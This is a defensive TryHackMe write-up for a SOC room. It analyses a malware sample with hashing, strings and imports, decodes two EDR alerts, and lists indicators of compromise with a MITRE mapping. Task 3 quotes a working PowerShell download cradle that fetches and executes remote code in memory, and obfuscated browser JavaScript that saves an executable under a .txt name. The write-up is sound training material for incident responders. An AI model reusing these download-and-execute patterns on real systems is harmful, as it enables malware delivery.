




# TryHackMe: Shadow Trace Write-up

Room: [Shadow Trace](https://tryhackme.com/room/shadowtrace) (SOC Level 1, Malware Concepts for SOC)

Goal: analyse a suspicious Windows executable, extract indicators of compromise, then trace the infection through two EDR alerts.

> Note: the final flag is redacted on purpose so the room is not spoiled. Follow the steps and you will get it yourself.

---

## Task 2: File analysis

Sample: `C:\Users\DFIRUser\Desktop\windows-update.exe`

### 1. Architecture

Opening the file in a PE viewer (PE-bear or Detect It Easy) and checking the Machine field shows a 64-bit PE. VirusTotal confirms it with the `64bits` tag.

**Answer:** 64-bit

### 2. SHA-256 hash

```powershell
Get-FileHash -Algorithm SHA256 C:\Users\DFIRUser\Desktop\windows-update.exe
```



```
B2A88DE3E3BCFAE4A4B38FA36E884C586B5CB2C2C283E71FBA59EFDB9EA64BFC
```

Searching the hash on VirusTotal shows 41 out of 70 vendors flag it as malicious. The code insights describe a downloader, a backdoor listening on TCP port 4443, hosts file exfiltration, termination of security products (`MsMpEng.exe`, `avp.exe`) and ransomware behaviour (XOR encryption of PDF files plus a ransom note).



### 3. URL inside the file

Extracting printable strings and filtering for the interesting keywords:

```powershell
strings.exe C:\Users\DFIRUser\Desktop\windows-update.exe | findstr /i "tryhatme http =="
```



The second stage download URL:

```
http://tryhatme.com/update/security-update.exe
```

### 4. Domain to use as an indicator

The strings also show a second host used for exfiltration of the hosts file (`[+] Hosts file exfiltrated to http://`):

```
responses.tryhatme.com
```

Note: `tryhatme.com` is the payload delivery domain, while `responses.tryhatme.com` is the host the sample sends stolen data to, so it is the domain used as the indicator.

### 5. Decoded flag

Next to `tryhatme.com/` there is a long Base64 string ending with `=`. Decoding it with CyberChef (recipe: From Base64) gives the flag:

```
THM{********************}
```

### 6. Socket communication library

In the Imports table of PE-bear or PEStudio, the Winsock library is loaded:

```
ws2_32.dll
```

The string output also shows `HttpOpenRequestA` and `HttpSendRequestA`, which come from `wininet.dll` and are used for the HTTP communication.

---

## Task 3: Alerts analysis

The room provides a static EDR dashboard with two critical alerts from host `WIN-SRV-01.tryhackme.local`.



### Alert 1: `powershell.exe` (Suspicious PowerShell execution)

The command is a download cradle with a Base64 encoded URL:

```powershell
(new-object system.net.webclient).DownloadString([Text.Encoding]::UTF8.GetString([Convert]::FromBase64String("aHR0cHM6Ly90cnloYXRtZS5jb20vZGV2L21haW4uZXhl"))) | IEX;
```

Decoding the Base64 string reveals the malicious URL. `IEX` then executes whatever is downloaded directly in memory.

```
https://tryhatme.com/dev/main.exe
```

### Alert 2: `chrome.exe` (Suspicious browser download)

This is browser JavaScript that builds the URL from character codes, fetches the file as a blob and forces a download through a hidden link:

```javascript
fetch([104,116,116,112,115,58,47,47,...].map(c=>String.fromCharCode(c)).join(''))
  .then(r=>r.blob())
  .then(b=>{const u=URL.createObjectURL(b);const a=document.createElement('a');a.href=u;a.download='test.txt';document.body.appendChild(a);a.click();a.remove();URL.revokeObjectURL(u);});
```

Decoding the character codes (CyberChef recipe: From Charcode, base 10):

```
https://reallysecureupdate.tryhatme.com/update.exe
```

The file name used for the saved download comes from the `a.download` property:

```
test.txt
```

Note that the downloaded file is saved with a harmless `.txt` extension while the source is an executable, which is a simple way to avoid suspicion.

---

## Indicators of compromise

| Type | Value |
|------|-------|
| SHA-256 | `B2A88DE3E3BCFAE4A4B38FA36E884C586B5CB2C2C283E71FBA59EFDB9EA64BFC` |
| URL | `http://tryhatme.com/update/security-update.exe` |
| URL | `https://tryhatme.com/dev/main.exe` |
| URL | `https://reallysecureupdate.tryhatme.com/update.exe` |
| Domain | `tryhatme.com` |
| Domain | `responses.tryhatme.com` |
| Domain | `reallysecureupdate.tryhatme.com` |
| Port | TCP 4443 (backdoor listener) |
| Imported library | `ws2_32.dll`, `wininet.dll` |
| Dropped file | `test.txt` |
| Ransom note | `rans-note.txt` |

## MITRE ATT&CK mapping

| Tactic | Technique |
|--------|-----------|
| Execution | T1059.001 PowerShell |
| Defense Evasion | T1027 Obfuscated Files or Information (Base64, character codes) |
| Defense Evasion | T1562.001 Impair Defenses: Disable or Modify Tools |
| Command and Control | T1105 Ingress Tool Transfer |
| Exfiltration | T1041 Exfiltration Over C2 Channel |
| Impact | T1486 Data Encrypted for Impact |

## Takeaways

- Hash the sample first, then check it on VirusTotal to save time.
- Strings output is often enough to find URLs, domains and encoded data.
- Obfuscation in alerts is usually simple (Base64 or character codes), and CyberChef decodes it quickly.
- Attackers hide payloads behind harmless looking extensions and names such as `windows-update.exe` and `security-update.exe`.
